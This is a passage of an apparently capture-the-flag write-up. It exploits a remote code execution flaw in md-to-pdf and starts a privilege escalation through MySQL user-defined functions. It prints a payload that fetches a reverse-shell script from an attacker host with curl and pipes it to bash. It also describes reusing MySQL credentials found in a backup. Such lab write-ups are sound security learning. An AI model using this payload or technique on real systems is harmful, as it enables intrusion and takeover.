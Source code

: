 <img src="https://i.imgur.com/0JQGcje.png"/>

This was vulnerable to rce

<img src="https://i.imgur.com/k1d7WMB.png"/>

https://github.com/simonhaenisch/md-to-pdf/issues/99

```
---js\n((require("child_process")).execSync("curl 10.10.16.51:3333/shell.sh | bash"))\n---RCE

```

This payload will download our bash reverse shell and execute by piping it to bash

<img src="https://i.imgur.com/t3ukvDv.png"/>

From the backup of `1635803546`  archive, we previously found credentials for mysql so let's test if these work
<img src="https://i.imgur.com/jyGvVPY.png"/>

<img src="https://i.imgur.com/ivAuWFD.png"/>

## Privilege Escalation

Here we can do something which is called `Privilege Escalation with MySQL User Defined Functions`

https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf

https://www.exploit-db.com/exploits/1518

First we need to compile the source code

<img src="https://i.imgur.com/MF0hq79.png"/>

Now to create a shared library

<img src="https://i.imgur.com/Q4NepGc.png"/>

After this we need to locate where the plugins are stroed and create a table in `mysql` database which will have an entry for the exploit which will help us in loading it in mysql plugins, create a user defined function which will run system commands using that shared library

<img src="https://i.imgur.com/eEQs1xN.png"/>

Plugins directory is `/usr/lib/x86_64-linux-gnu/mariadb19/plugin/` 

Switching to mysql database

<img src="https://i.imgur.com/eSiYUbL.png"/>

Creating a table named `foo` and inserting the shared library

<img src="https://i.imgur.com/RiGiUkx.png"/>
